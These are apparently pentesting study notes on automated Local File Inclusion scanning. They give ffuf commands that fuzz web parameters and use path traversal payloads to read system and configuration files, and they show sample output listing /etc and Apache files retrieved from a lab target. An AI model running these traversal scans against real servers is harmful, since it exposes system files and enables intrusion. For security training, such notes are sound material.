 # Automated Scanning

## Fuzzing Parameters

Fuzz the page for common GET parameters :

ffuf -w /opt/useful/SecLists/Discovery/Web-Content/burp-parameter-names.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?FUZZ=value' -fs 2287

--> important to fuzz for exposed parameters, as they tend not to be as secure as public ones.

Also can use a wordlist : https://book.hacktricks.xyz/pentesting-web/file-inclusion#top-25-parameters

## LFI wordlists

https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/LFI/LFI-Jhaddix.txt

ffuf -w /opt/useful/SecLists/Fuzzing/LFI/LFI-Jhaddix.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=FUZZ' -fs 2287

## Fuzzing Server Files

### Server Webroot

Linux :
https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/default-web-root-directory-linux.txt

Windows :
https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/default-web-root-directory-windows.txt

ffuf -w /opt/useful/SecLists/Discovery/Web-Content/default-web-root-directory-linux.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=../../../../FUZZ/index.php' -fs 2287

### Server Logs/Configurations

Linux :
https://raw.githubusercontent.com/DragonJAR/Security-Wordlist/main/LFI-WordList-Linux

Windows :
https://raw.githubusercontent.com/DragonJAR/Security-Wordlist/main/LFI-WordList-Windows


wget -c https://raw.githubusercontent.com/DragonJAR/Security-Wordlist/main/LFI-WordList-Linux -O LFI-WordList-Linux

ffuf -w ./LFI-WordList-Linux:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=../../../../FUZZ' -fs 2287

/etc/hosts              [Status: 200, Size: 2461, Words: 636, Lines: 72]
/etc/hostname           [Status: 200, Size: 2300, Words: 634, Lines: 66]
/etc/login.defs         [Status: 200, Size: 12837, Words: 2271, Lines: 406]
/etc/fstab              [Status: 200, Size: 2324, Words: 639, Lines: 66]
/etc/apache2/apache2.conf [Status: 200, Size: 9511, Words: 1575, Lines: 292]
/etc/issue.net          [Status: 200, Size: 2306, Words: 636, Lines: 66]
...SNIP...
/etc/apache2/mods-enabled/status.conf [Status: 200, Size: 3036, Words: 715, Lines: 94]
/etc/apache2/mods-enabled/alias.conf [Status: 200, Size: 3130, Words: 748, Lines: 89]
/etc/apache2/envvars    [Status: 200, Size: 4069, Words: 823, Lines: 112]
/etc/adduser.conf       [Status: 200, Size: 5315, Words: 1035, Lines: 153]
